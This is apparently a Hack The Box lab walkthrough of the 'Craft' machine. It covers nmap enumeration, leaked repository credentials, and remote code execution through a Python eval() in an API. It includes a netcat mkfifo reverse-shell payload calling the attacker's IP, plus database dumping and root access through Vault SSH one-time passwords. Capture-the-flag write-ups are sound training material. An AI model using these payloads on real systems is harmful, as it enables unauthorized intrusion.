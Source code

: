 # 						  Craft - Hack The Box WalkThrough

### Victim IP: 10.10.10.110 Victim OS: Linux
### Enumeration - Namp
```
nmap -sV -sC -oA nmap_full -p1,65535 10.10.10.110
Nmap scan report for 10.10.10.110
Host is up (0.13s latency).

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 7.4p1 Debian 10+deb9u5 (protocol 2.0)
| ssh-hostkey: 
|   2048 bd:e7:6c:22:81:7a:db:3e:c0:f0:73:1d:f3:af:77:65 (RSA)
|   256 82:b5:f9:d1:95:3b:6d:80:0f:35:91:86:2d:b3:d7:66 (ECDSA)
|_  256 28:3b:26:18:ec:df:b3:36:85:9c:27:54:8d:8c:e1:33 (ED25519)
443/tcp  open  ssl/http nginx 1.15.8
|_http-server-header: nginx/1.15.8
|_http-title: About
| ssl-cert: Subject: commonName=craft.htb/organizationName=Craft/stateOrProvinceName=NY/countryName=US
| Not valid before: 2019-02-06T02:25:47
|_Not valid after:  2020-06-20T02:25:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
| tls-nextprotoneg: 
|_  http/1.1
6022/tcp open  ssh      (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-Go
| ssh-hostkey: 
|_  2048 5b:cc:bf:f1:a1:8f:72:b0:c0:fb:df:a3:01:dc:a6:fb (RSA)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port6022-TCP:V=7.80%I=7%D=12/19%Time=5DFC45CB%P=x86_64-pc-linux-gnu%r(N
SF:ULL,C,"SSH-2\.0-Go\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Dec 19 22:54:28 2019 -- 1 IP address (1 host up) scanned in 47.95 seconds
```
### Enumerating the web page - https://craft.htb
![homepage](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/1_test.py.png)

The "API" link points to api.craft.htb and the "Sign in" button to "gogs.craft.htb" therefore we add these as entries to our hosts file in other to be able to resolve and reach them.

### Enumeration - https://api.craft.htb
Small API with basic GET, POST, PUT, DELETE actions, might be an interesting point of entry.
Authentication required for POST, PUT
![api_craft](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/api_craft.png)

### Enumeration - https://gogs.craft.htb
![gogs](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/gogs_craft.png)
Repository housing the code and content for api.craft.htb:
![commits](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/craft_api_repo.png)
Reviewing all issues,commits and merge requests, dinesh’s credentials were accidentally commited and removed: 
![dinesh_creds](https://github.com/zomy22/zomy22.github.io/tree/master/hackthebox/craft_images/dinesh_creds.png)
The issue fix by dinesh also shows a dangerous python function (eval):
![eval_in_issue_fix](https://github.com/zomy22/zomy22.github.io/tree/master/hackthebox/craft_images/eval_in_issue_fix.png)
The eval command resides in the POST brew function in brew.py and accepts user input.

The discovered credentials can be used in test.py
![1_test.py](https://github.com/zomy22/zomy22.github.io/tree/master/hackthebox/craft_images/1_test.py.png)


### Initial foothold - Exploiting python eval function
Test 1: On local system:
![Test 1](https://github.com/zomy22/zomy22.github.io/tree/master/hackthebox/craft_images/test1.png)

That works.
Test 2: with a similar "if" statement like in test.py:
![Test 2](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/test2.png)

That works too, however there is no result returned when it is tried on the victim end.

Test 3: Ping from victim to local machine:
tcpdump -i tun0 -nnv icmp
Payload (test.py): 
```brew_dict['abv'] = '__import__("os").system("ping -c 3 10.10.14.4")' ```
 
Test 4. Reverse shell (http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet):
Several failed till the netcat (without -e) option.
	The payload becomes: 
	brew_dict['abv'] = '__import__("os").system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.4 4445 >/tmp/f")'
![Test 4](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/test3.png)

It's says root! Well that was easy! 
But wait no user.txt or root.txt flags. Of course it couldn’t be that easy 

Running "cat /etc/issue", LinEnum and linuxprivchecker again show that we are in a docker container
Release: Alpine Linux 3.9

### Obtaining User privileges  – user.txt
Dump database credentials – dbtest.py
![dbtest.py](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/dbtest.py.png)

Modify the SQL in the try statement to select all users from the database
![db_dump](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/dump_users.png)

Authenticate with discovered credentials and enumerate the git repository
All commits/merge requests ==> ssh private key, vault write commands …
<screenshot>
  
For now authenticate with the SSH private key and enter gilfoyle’s password (dumped from the db/git password) as passphrase

### Elevating to root – Leveraging Vault SSH Secrets Engine
After obtaining user access on the machine more enumeration is required to discover interesting escalation vectors. Running linuxenum and privesc scripts did not recover any vulnerabilities right away but did point out the vault write.

### Exploring vault:
![vault_secrets](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/vault_secrets_list.png)

Gilfoyle’s OTP setup:
![otp_setup](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/vault_write_ssh_otp.png)

Reviewing the SSH Secrets Engine Documentation: https://www.vaultproject.io/docs/secrets/ssh/one-time-ssh-passwords.html 
gilfoyle@craft:~$ vault write ssh/creds/root_otp ip=127.0.0.1
![vault_write_ssh_otp](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/vault_write_ssh_otp_new.png)

Then SSH to the host using the generated key and the root user:
![root.txt](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/root.txt.png)

Conclusion:
This machine simulates a lot of real world scenarios. I was delighted at every discovery, learned a lot and reminded myself once again the importance of enumeration during a penetration test.

